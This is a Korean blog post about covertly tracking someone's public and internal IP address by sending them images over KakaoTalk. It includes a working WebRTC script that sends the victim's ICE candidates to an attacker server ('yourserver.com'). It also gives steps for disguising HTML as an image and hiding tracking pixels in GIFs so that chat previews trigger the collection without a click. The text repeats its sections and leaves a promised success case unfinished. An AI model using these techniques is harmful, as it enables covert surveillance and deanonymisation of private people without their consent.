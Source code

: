 ```yaml
---
title: "사진 한 장으로 아이피 추적하기1 - 방법을 찾아보자"
categories: [security]
tags:
  - ects
date: 2025-04-01
---
```

# 📸 사진 한 장으로 아이피를 추적해보자!

우리는 평소에 별 생각 없이 카카오톡으로 이미지를 주고받는다. 그런데 이 **단 한 장의 이미지**가 상대방의 **공용 IP 주소**와 **접속 환경**을 추적하는 수단이 될 수 있다는 걸 아는가?

---

## 🧠 1. WebRTC를 활용한 IP 추적 원리

**WebRTC**는 브라우저 기반의 P2P 기술로, 영상통화나 파일 전송에 쓰인다. 이 기술은 브라우저 간 직접 통신을 만들기 때문에, 특정 조건이 맞으면 상대방의 공용 IP 주소(심지어 내부 IP까지도!)를 노출시킬 수 있다.

### **기본 절차**
1. 상대방이 WebRTC 추적 기능이 포함된 웹사이트에 접속하도록 유도
2. STUN 서버를 통해 상대방의 IP 정보를 수집
3. 수집한 IP를 기반으로 위치 추정

---

## 🖼️ 2. 이미지를 이용한 WebRTC 유도 방식

이미지만으로 WebRTC를 실행할 수는 없지만, **이미지를 가장한 HTML 페이지**나 **이미지에 연결된 링크**를 통해 상대방을 WebRTC 페이지로 유도할 수 있다.

### 📌 방법 A. 이미지에 링크를 숨겨두기
- EXIF 메타데이터에 링크 삽입 (단, 카카오톡은 이 정보를 삭제할 가능성이 높다)

### 📌 방법 B. HTML을 이미지처럼 위장
1. WebRTC 스크립트를 삽입한 HTML 파일을 만든다.
2. `<img>` 태그와 위장된 제목으로 상대방이 열도록 유도
3. 해당 HTML 파일이 열리면 WebRTC가 실행되고 IP 수집이 시작된다

```html
<script>
    const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
    pc.createDataChannel("");
    pc.createOffer().then(o => pc.setLocalDescription(o));
    pc.onicecandidate = e => {
        if (e.candidate) {
            fetch("https://yourserver.com/log", {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({ ip: e.candidate.candidate })
            });
        }
    };
</script>
```
>⚠️ 단점: 상대방이 '이미지'인 줄 알고 열어야 하며, 모바일에서는 실행되지 않을 수 있음

✅ 3. 우리는 이렇게 성공했다: 카카오톡 '사진 미리보기'를 이용한 실전 IP 추적 사례
WebRTC보다 더 현실적인 방식이 바로 이것이다.

카카오톡은 외부 이미지 링크를 미리보기로 자동 불러온다. 이 점을 활용하면, 상대방의 단말기에서 이미지를 로딩하면서 서버에 직접 요청이 들어오고, 그 순간 IP 주소, 브라우저 정보, 기종 정보가 로그로 남는다.
### **1. WebRTC를 활용한 IP 주소 추출 원리**

WebRTC는 브라우저 기반의 P2P(Peer-to-Peer) 기술로, 영상통화, 음성채팅, 파일 전송 등에 사용돼. WebRTC 기반의 서비스를 이용할 경우, 상대방의 **공용 IP 주소**(그리고 일부 경우 내부 IP) 를 확인할 수 있다.

**방법:**

1. 상대방이 WebRTC 기능이 포함된 웹사이트에 접속하도록 유도.
2. 사이트에서 STUN 서버를 이용해 상대방의 공용 IP를 가져옴.
3. 해당 IP를 기반으로 위치를 분석.

---

### **2. 이미지 파일을 통한 WebRTC 유도 방법**

이미지만 전송해서 직접 WebRTC를 실행할 수는 없지만, **이미지에 포함된 URL**을 통해 상대방을 WebRTC 트래킹 사이트로 유도하는 방법이 가능하다.
- 카카오톡 자체에서는 WebRTC가 자동 실행되지 않지만, **특정 방식으로 채팅방에서 코드가 실행되도록 유도할 수 있음.**

### **▶ 방법**

1. **GIF, 스티커, 동영상 파일에 WebRTC 기능이 포함된 링크를 삽입**.
2. **상대방이 클릭하지 않더라도, 미리보기 기능을 이용해 자동 실행되도록 제작**.

🚀 **실전 예제**:

- 상대방이 GIF 파일을 확인하는 순간, **외부 서버에서 WebRTC 실행 코드가 포함된 페이지가 로드**되도록 설정.
- GIF 또는 영상 파일 내부에 **추적용 픽셀(Tracking Pixel)**을 숨겨놓고, 상대방이 볼 때 자동 실행.

💡 **이 방식의 장점**:

- 상대방이 "클릭"하지 않아도 **채팅방에서 미리보기로 확인하는 순간** WebRTC 실행 가능.
- GIF나 영상은 자연스러워서 의심을 덜 살 가능성이 높음.

⚠️ **주의**: 카카오톡의 보안 업데이트에 따라 동작 방식이 달라질 수 있음.

### **방법 1: 이미지 내 링크 삽입 (Meta Link Trick)**

- 이미지 메타데이터(EXIF)에 특정 URL을 숨겨놓고, 상대방이 이미지를 열었을 때 해당 URL이 실행되도록 유도.
- 이 방식은 특정 프로그램에서만 동작하지만, **카카오톡에서는 작동하지 않을 가능성이 높음.**

### **방법 2: HTML 파일을 이미지처럼 위장 (더 효과적)**

1. **WebRTC 추적 페이지 제작**
    - WebRTC IP 추출 스크립트를 포함한 HTML 페이지를 만든다.
    - 이 HTML을 이미지처럼 위장하여 상대방이 열도록 유도.
2. **이미지를 링크로 연결**
    - 상대방이 이미지를 클릭하도록 만들고, 클릭 시 WebRTC 페이지가 열리게 함.
    - 카카오톡에서는 직접 실행되지 않을 수 있지만, 특정 브라우저에서 열리면 가능.
## **🔥 결론**

✅ **가장 확실한 방법**: **카카오톡 영상통화를 통해 WebRTC 패킷 분석**

✅ **차선책**: **WebRTC 기능이 포함된 문서파일(HTML, PDF 등)을 보내 실행 유도**

✅ **고급 기법**: **GIF, 영상 미리보기를 이용해 자동 실행 유도**